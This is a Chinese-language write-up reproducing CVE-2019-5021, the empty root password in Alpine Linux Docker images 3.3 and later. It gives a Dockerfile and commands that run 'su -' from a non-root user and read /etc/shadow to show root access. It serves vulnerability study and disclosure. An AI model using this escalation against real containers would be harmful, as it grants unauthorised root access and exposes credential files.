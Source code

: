 # CVE-2019-5021 alpine docker镜像漏洞

## 1.漏洞介绍

自 Alpine Linux 3.3 版本开始的所有 Docker 镜像中，root 用户包含一个空密码，这可能会导致攻击者获得 root 权限，进而造成攻击。

**受影响范围是 Alpine Linux Docker 镜像 3.3、3.4、3.5、3.6、3.7、3.8、3.9、edge 等全部版本。**

由于 Alpine Linux 镜像体积较小，所以在构建 Docker 镜像时，很多人都会推荐使用 Alpine Linux 作为基础镜像；包括很多 Docker 官方镜像也基本上都提供了基于 Alpine Linux 的镜像，甚至像 Docker 镜像等，是只提供了使用 Alpine Linux 作为基础镜像的版本。

## 2.复现步骤

```bash
mkdir cve-2019-0521
vi Dockerfile
```

Dockerfile内容为：

```bash
FROM alpine:3.5
RUN apk add --no-cache shadow
RUN adduser -S non_root
USER non_root
```

构建镜像：

```bash
docker build -t local/alpine:cve .
```

![image-20211125104218111](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211125104218111.png)

进入容器：

```bash
docker run --rm -it  local/alpine:cve
```

然后执行：

```basic
id
whoami
su -
whoami
grep root /etc/passwd /etc/shadow
```

![image-20211125104310413](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211125104310413.png)

可以看到成功使用普通用户获取的 `root` 权限。